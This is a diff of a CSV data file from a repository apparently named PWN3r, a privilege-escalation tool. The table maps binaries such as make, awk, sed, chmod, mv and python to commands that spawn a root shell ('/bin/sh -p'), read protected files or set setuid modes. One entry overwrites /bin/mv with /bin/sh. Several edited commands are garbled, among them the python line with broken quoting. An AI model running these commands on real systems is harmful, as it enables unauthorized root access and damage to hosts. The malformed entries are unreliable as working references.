

Before and after one commit to EGYCCAL/PWN3r, a CSV file: PWN3r/data/PWN3r.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/PWN3r/data/PWN3r.csv
+++ b/PWN3r/data/PWN3r.csv
-E1: (empty)
+E1: notes
-C26 (cmd): …r '$FILE.ar' '$FILE'; ar p '$FILE.ar';rm -f '$FILE.ar'
+C26 (cmd): …r '$FILE.ar' '$FILE';ar p '$FILE.ar'
-C31 (cmd): COMMAND='/bin/sh -p';make -s --eval=$'x:\n\t-''$COMMAND'
+C31 (cmd): echo -e "x:\n\t/bin/sh -p" > makefile; make;
-C33 (cmd): timeout 7d sh -p
+C33 (cmd): timeout 7d /bin/sh -p
-E33 (notes): (empty)
+E33 (notes): please run this commnad => timeout 7d /bin/sh -p
-C38 (cmd): …--textbox --scrolltext '$LFILE' 10 100
+C38 (cmd): …--textbox --scrolltext '$FILE' 10 100
-D38 (type): Gain Root Access
+D38 (type): File Read
-C39 (cmd): awk -v LFILE=$LFILE 'BEGIN { print 'DATA' > LFILE }'
+C39 (cmd): awk '//' '$FILE'
+row 40: 39 | mawk | awk '//' '$FILE' | File Read
@@ column A (id) renumbered between rows 41 and 58 @@
-C41 (cmd): sed -e '' '$LFILE'
+C41 (cmd): sed -e '' '$FILE'
-E42 (notes): (empty)
+E42 (notes): to read the file please press "p" and to quit press "q"
-C43 (cmd): chown $(id -un):$(id -gn) $LFILE
+C43 (cmd): chown $(id -un):$(id -gn) '$FILE';cat '$FILE'
-C44 (cmd): chmod 6777 $LFILE
+C44 (cmd): chmod 6777 '$FILE'; cat '$FILE'
-C45 (cmd): cp '$LFILE' /dev/stdout;cp --no-preserve=mode
+C45 (cmd): cp '$FILE' /dev/stdout
-D45 (type): ownership '$FILE' 'fileout'
+D45 (type): File Read
-E45 (notes): read file
+E45 (notes): (empty)
-C46 (cmd): LFILE=file_to_write;TF=$(mktemp);echo 'DATA' > $TF;mv $TF $LFILE
+C46 (cmd): mv /bin/sh /bin/mv ;mv -p
-D46 (type): read file and gain root access
+D46 (type): Gain Root Access
-row 46: 45 |  | mv /bin/sh /bin/mv ;mv -p
-D47 (type): read file
+D47 (type): Gain Root Access
-F48: gain root access
+F48: Gain Root Access
+row 49: 49 | python3.8 | python -c "import os; os.execl("/bin/sh" | sh | -p)" | Gain Root Access
-D50 (type): gain root access
+D50 (type): Gain Root Access
```
Also changed, not shown: 10 removed rows and 3 edited cells elsewhere in this file, 2 other files.
